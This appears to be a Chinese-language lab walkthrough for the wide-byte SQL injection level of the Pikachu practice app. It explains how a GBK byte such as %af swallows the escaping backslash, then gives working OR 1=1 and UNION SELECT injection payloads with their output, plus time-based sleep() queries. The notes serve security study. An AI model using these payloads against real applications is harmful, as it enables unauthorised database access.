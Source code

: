 预习知识：

* 宽字节注入的前提：PHP 发送请求到 mysql 时，对 sql 语句进行了一次编码，例如本关中对了 sql 语句进行了 gbk 编码
* 宽字节注入的原理：当转义使用的 `\` 为 **ASCII 编码**，而客户传入的参数被当成 **GBK 等宽字节编码**时，则可以通过在 `\` 之前插入一个十六进制（ASCII码要大于128，才到汉字的范围），来让 mysql 以为插入的字节和 `\` （的GBK编码组合）是一个中文字符，从而吃掉 `\`，摧毁其对单引号 `'`的转义

本关数据库使用了 GBK 编码，`\`将用于转义单引号`'`，而 `\`的 GBK 编码是 %5c，而 %df%5c 或 %af%5c 或 %ac%5c 的组合是一个汉字，故可以利用 %af 或 %bf 或 %cf 等吃掉 %5c，因此单引号就被逃逸了，进而可以闭合前面的单引号，成功形成注入 sql 语句！

https://www.modb.pro/db/494321

https://blog.csdn.net/elephantxiang/article/details/115771540

https://www.freebuf.com/articles/web/254079.html

https://blog.51cto.com/u_11908275/6943535

1. 判断注入类型：其为基于布尔的盲注，在详细点：其为基于 or 的盲注

   ```sql
   name=hack%af' or 1=1--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   网页页面显示:
   your uid:1
   your email is:vince@pikachu.com
   
   your uid:2
   your email is:allen@pikachu.com
   
   ......
   ```

   也可以使用联合注入：

   ```
   name=hack%af' union select version(),database()--+&submit=%E6%9F%A5%E8%AF%A2
   ```

   ```
   网页页面显示:
   your uid:5.5.53
   your email is:pikachu
   ```

2. 其余操作同上，这里不再多说...



## 复习

好好复习下 where 语句后面的 or 和 and 语句...

```sql
select id,email from member where username='lili' and if(1=1,sleep(1),null);
```

```sql
 select id,email from member where username='lili' or if(1=1,sleep(3),null);
```
